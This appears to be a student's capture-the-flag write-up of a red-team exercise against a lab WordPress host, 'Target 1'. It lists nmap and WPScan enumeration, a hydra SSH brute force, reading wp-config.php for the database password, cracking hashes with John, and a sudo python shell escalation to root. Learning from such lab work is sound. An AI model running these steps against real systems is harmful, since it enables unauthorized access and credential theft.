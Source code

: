 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
Command: $ nmap -sV -sC -O 192.168.1.0/24
  ```
 <img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/Target-1_nmap.png" alt="Target1_IP" style="height: 400px; width:600px;"/>


This scan identifies the services below as potential points of entry:
   Target 1  
     1. Port 22/TCP Open SSH       
     2. Port 80/TCP Open HTTP       
     3. Port 111/TCP Open rcpbind       
     4. Port 139/TCP Open netbios-ssn     
     5. Port 445/TCP Open netbios-ssn  


The following vulnerabilities were identified on each target:     
   Target 1  
    1. User Enumeration (WordPress site)  
  -    a. The stop-user-enumeration plugin before 1.3.8 for WordPress has XSS. [CVE-2017-18536](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-18536/ "CVE-2017-18536")  
  -    b. WordPress Core < 4.7.1 - Username Enumeration Vulnerability CVE-2017-5487 Scanner [CVE-2017-5487](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5487/ "CVE-2017-5487")  
    2. Weak user Passwords - guess or use hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh      
    3. Unsalted user Password Hash (WordPress)  
    4. Misconfiguration of User Privileges/Privilege Escalation with Python.    

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `Flag1: b9bbcb33ellb80be759c4e844862482d` _hash value_
    - **Exploit Used**
      - WPScan to enumerate users of target1 WordPress site.
      - wpscan --url http://192.168.1.110 --enumerate u
       <img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/wpscan_michael.png?raw=true" alt="WPScan Users"/>             

      - Brute force, `guess`, or hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh  
      - Use guess password `michael` for user michael.    
      ssh michael@192.168.1.110  
      pwd: michael  
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/michael_ID.png?raw=true" alt="michael_ID"/>  
  - egrep flag* service.html
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/FLAG-1_service-html.png?raw=true" alt="Flag1"/>  

<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/service-htmp-footer-flag1.png?raw=true" alt src="source.html" style="height: 400px; width:600px;"/>


  - `Flag2: fc3fd58dcdad9ab23faca6e9a3e581c`   
    - **Exploit Used**
      -  Same exploit covered in flag1 to gain access
      - Commands:
      - ssh michael@192.168.1.110
      - pw: michael
      - cd /var/www - transverse the directory.
      - find / i-name flag*
      - cat flag2.txt
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/FLAG-2.png?raw=true" alt="Flag2"/>  

  - `Flag3: afc01ab56b50591e7dccf93122770cd2`   
        - **Exploit Used**        
          - Continue using michael's credentials; locate the wp-config.php, and use mysql to explore the database.     
          - Once found, the wp-config.php displayed the db_password in plain text.

<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/wp-config-php--location.png?raw=true" alt="wp_location"/>  
          - cat wp-config-php       
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/wp-config_PWD.png?raw=true" alt="wp_passwd"/>  

           - `Flag3` was found in the wp_posts table in the wordpress database.
             - Commands:
              - Connected to mysql: -u root -p'R@v3nSecurity'
              - show databases;
              - use wordpress;
              - show tables;
             - select * from wp_posts;  

<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/myswl-logon.png?raw=true" alt="mysql-login"/>  
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/mysql_databases.png?raw=true" alt="mysql_databases"/>    
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/mysql_TABLES.png?raw=true" alt="mysql_TABLES"/>  
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/FLAG-3_mysql_wp_posts.png?raw=true"/>

  - `Flag4: 715dea6c055b9fe3337544932f2941ce`:   
            - **Exploit Used**    
               - Use of weak salted hashes and Python root escalation Privileges.  
               - Still using michaels credentials, gather the password hashes to crack.  
               - The usernames and password hashes were copied to the kali server in a file (wp_hashes.txt), and cracked with John.  
               - select * from wp_users;  
  <img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/mysql_hashes.png?raw=true"/>
     
               - john wp_hashes.text
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/Steven_Pink84.png?raw=true" style="height: 400px; width:600px;"/>

              - use Steven credentials to ssh to target1 and escalate privileges to find flag4.  
              - ssh steven@192.168.1.110
              - pw: pink84
              - sudo -l
              - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’   

<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/sudo-stephen.png?raw=true"/>

              - cd /root
              - ls
              - cat flag4.txt      

<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/Flag-4.png?raw=true"/>
